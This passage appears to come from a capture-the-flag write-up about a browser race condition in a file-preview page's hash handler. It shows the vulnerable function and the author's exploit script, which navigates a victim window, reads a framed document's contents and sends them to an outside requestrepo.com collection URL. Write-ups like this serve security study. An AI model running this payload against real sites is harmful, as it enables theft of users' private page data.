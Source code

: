 **Winning the race condition:** Turns out that the `await sleep(0)` introduces a race condition in the process hash function:
```js
    const processHash = async () => {
      safeFrameModal.hide();
      if (location.hash.length <= 1) return;
      const hash = location.hash.slice(1);
      if (hash.length < 5) {
        const id = parseInt(hash);
        location.hash = filesList.querySelectorAll('a')[id].id;
        return;
      }
      const fileDiv = document.getElementById(hash);
      if (fileDiv === null || !fileDiv.dataset.name) return;
      previewIframeDiv.textContent = '';
      await sleep(0);
      previewFile(db.getFile(fileDiv.dataset.name), previewIframeDiv);
      /* If modal is not shown remove hash */
      setTimeout(() => {
        if (!previewModalDiv.classList.contains('show')) {
          location.hash = '';
        }
      }, 2000);
    }
```

Where the file will be selected, but we can change the hash without the function being triggered again, which will allows us to control `location.href` and therefore the hash of the shim. I'm not exactly sure why, but this combination of setTimeouts made me win the race almost every time:
```js
      setInterval(()=>{
        if (victim.frames.length == 0) {
        victim.location.href = NOTE_URL;
        victim.location.href = NOTE_URL+"0";
        victim.location.href = NOTE_URL+"00";
        victim.postMessage("blob loaded", '*');
        setTimeout(()=>{
          victim.location.href = OVERWRITE_URL2;
        }, 0);
        } else {
          if (window.flag==0) {
          let victimVictim = victim.frames[0];
          fetch(victimVictim.document.getElementsByTagName("iframe")[0].src).then(r=>{return r.text()}).then(data=>{
            location="https://als0z0ha.requestrepo.com/?q="+data;
            window.flag=1;
          });
          }
        }
        //victim.postMessage(buffer, '*', [buffer.buffer]);
        //victim.location.href = OVERWRITE_URL2;
      }, 100);
```
